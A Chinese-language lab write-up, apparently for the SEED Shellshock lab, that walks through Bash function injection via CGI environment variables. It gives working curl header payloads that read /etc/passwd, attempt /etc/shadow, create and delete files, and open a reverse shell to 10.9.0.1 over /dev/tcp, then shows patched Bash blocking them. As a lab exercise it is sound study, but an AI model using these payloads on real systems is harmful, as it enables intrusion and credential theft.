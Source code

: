 ```yaml
---
hide:
  #- navigation # 显示右
  #- toc #显示左
  - footer
  - feedback
# comments: true
---  
```


# Shellshock

## 任务 1：Bash 函数实验

首先我们创建一个环境变量，构造一个形如 bash 函数定义的字符串，并注入一个恶意命令：

![](../../../../../assets/Pasted%20image%2020250705160123.png)

在父进程中，这个环境变量只是一个字符串，并没有被当做是函数定义来处理

如果我们启动含有 shellshock 漏洞的 Bash：

![](../../../../../assets/Pasted%20image%2020250705160454.png)

可以看到，Bash 执行了我们输入的命令，并且定义了函数 foo，如果我们启动一个没有 shellshock 漏洞的 Bash：

![](../../../../../assets/Pasted%20image%2020250705160536.png)

可以看到，Bash 没有执行我们输入的命令，并且没有定义函数 foo
***
## 任务 2：通过环境变量传递数据给 Bash

### 任务 2.A：使用浏览器

在浏览器中打开 URL `http://www.seed-server.com/cgi-bin/getenv.cgi`，浏览器会显示一个长列表，这些都是由 Apache Web 服务器为 `getenv.cgi` 脚本设置的环境变量

![](../../../../../assets/Pasted%20image%2020250705162617.png)

可以看到，请求头和环境变量有很多重合，比如：

- `HTTP_HOST` 对应 `Host`
- `HTTP_USER_AGENT` 对应 `User-Agent`
- `HTTP_ACCEPT` 对应 `Accept`
- `HTTP_ACCEPT_LANGUAGE` 对应 `Accept-Language`
- `HTTP_ACCEPT_ENCODING` 对应 `Accept-Encoding`
- `HTTP_CONNECTION` 对应 `Connection`
- `HTTP_UPGRADE_INSECURE_REQUESTS` 对应 `Upgrade-Insecure-Requests`
- `HTTP_CACHE_CONTROL` 对应 `Cache-Control`
***
### 任务 2.B：使用 curl

首先我们利用 `-v` 选项来打印 HTTP 请求头：

![](../../../../../assets/Pasted%20image%2020250705163102.png)

通过 `-A` 选项来设置 User-Agent：

![](../../../../../assets/Pasted%20image%2020250705163538.png)

可以看到，我们修改了 User-Agent 的值，并且在 CGI 的环境变量中也成功设置了

通过 `-e` 选项来设置 Referer：

![](../../../../../assets/Pasted%20image%2020250705163501.png)

同样可以看到，我们修改了 Referer 的值，并且在 CGI 的环境变量中也成功设置了

通过 `-H` 选项来设置任意的 HTTP 请求头：

![](../../../../../assets/Pasted%20image%2020250705163644.png)

综上所述，通过 `-A`、 `-e` 和 `-H` 选项，我们都可以设置 HTTP 请求头，并且这些请求头会被传递给 CGI 程序作为环境变量
***
## 任务 3：发起 Shellshock 攻击

### 任务 3.A

用 `-A` 选项，利用命令 `curl -A "() { echo hello; }; echo Content-type: text/plain; echo; /bin/cat /etc/passwd" http://www.seed-server.com/cgi-bin/vul.cgi` 来读取 `/etc/passwd` 文件：

![](../../../../../assets/Pasted%20image%2020250705165255.png)
***
### 任务 3.B

用 `-e` 选项，利用命令 `curl -e "() { echo hello; }; echo Content-type: text/plain; echo; /bin/id" http://www.seed-server.com/cgi-bin/vul.cgi` 来打印出 ID 信息：

![](../../../../../assets/Pasted%20image%2020250705165138.png)

可以看到输出的为用户 `www-data` 的 ID 信息
***
### 任务 3.C

用 `-H` 选项，利用命令 `curl -H "User-Agent: () { echo hello; }; echo Content-type: text/plain; echo; /bin/touch /tmp/hacked" http://www.seed-server.com/cgi-bin/vul.cgi` 来创建一个 `/tmp/hacked` 文件，并通过 `curl -H "User-Agent: () { echo hello; }; echo Content-type: text/plain; echo; /bin/ls -l /tmp" http://www.seed-server.com/cgi-bin/vul.cgi` 来验证：

![](../../../../../assets/Pasted%20image%2020250705164512.png)

可以看到，我们成功创建了一个 `/tmp/hacked` 文件，且拥有者为 `www-data` 用户
***
### 任务 3.D

利用命令 `curl -H "User-Agent: () { echo hello; }; echo Content-type: text/plain; echo; /bin/rm /tmp/hacked" http://www.seed-server.com/cgi-bin/vul.cgi` 来删除 `/tmp/hacked` 文件，并通过 `curl -H "User-Agent: () { echo hello; }; echo Content-type: text/plain; echo; /bin/ls -l /tmp" http://www.seed-server.com/cgi-bin/vul.cgi` 来验证：

![](../../../../../assets/Pasted%20image%2020250705164748.png)

可以看到，我们成功删除了 `/tmp/hacked` 文件
***
### 问题解答

- **问题 1：你能否从服务器窃取  `/etc/shadow`  文件的内容？为什么或者为什么不行？**
	- 不能。从任务 3.B 我们得知，CGI 脚本是以用户 `www-data` 的身份运行的，`/etc/shadow` 文件存储着加密后的用户密码，为了安全，它的权限设置通常为 `root` 用户可读写，其他用户（包括 `www-data`）没有任何权限。因此，即使我们能执行命令，也无法读取一个没有权限访问的文件
	- 我们可以通过 `curl -H "User-Agent: () { echo hello; }; echo Content-type: text/plain; echo; /bin/cat /etc/shadow" http://www.seed-server.com/cgi-bin/vul.cgi` 来尝试读取 `/etc/shadow` 文件，不会有任何输出：
	
	![](../../../../../assets/Pasted%20image%2020250705165704.png)
	
- **问题 2：我们能否使用 `QUERY_STRING` 这种方法发起 Shellshock 攻击？**
	- 不能。我们可以尝试使用 `curl http://www.seed-server.com/cgi-bin/getenv.cgi?"(){ echo hello; }; echo Content-type: text/plain; echo; /bin/cat /etc/passwd"` 来发起攻击，但是 curl 本身不支持这样的格式：
	
	![](../../../../../assets/Pasted%20image%2020250705165916.png)
***
## 任务 4：通过 Shellshock 攻击获取反向 Shell

在我们的主机上运行监听端口程序：

![](../../../../../assets/Pasted%20image%2020250705170150.png)

同时在另一个进程中，用 `curl -H "User-Agent: () { echo hello; }; /bin/bash -i >/dev/tcp/10.9.0.1/9090 0<&1 2>&1" http://www.seed-server.com/cgi-bin/vul.cgi` 命令发起攻击：

![](../../../../../assets/Pasted%20image%2020250705170509.png)

可以看到，我们成功获取了反向 Shell，并且可以通过这个 Shell 执行任意命令
***
## 任务 5：使用已修补的 Bash

在容器内部修改 `vul.cgi` 文件：

![](../../../../../assets/Pasted%20image%2020250705182055.png)

然后重新进行任务 3 的攻击：

![](../../../../../assets/Pasted%20image%2020250705182238.png)

可以看到，所有的攻击都失败了，全部都输出了 `vul.cgi` 自带的 `Hello World`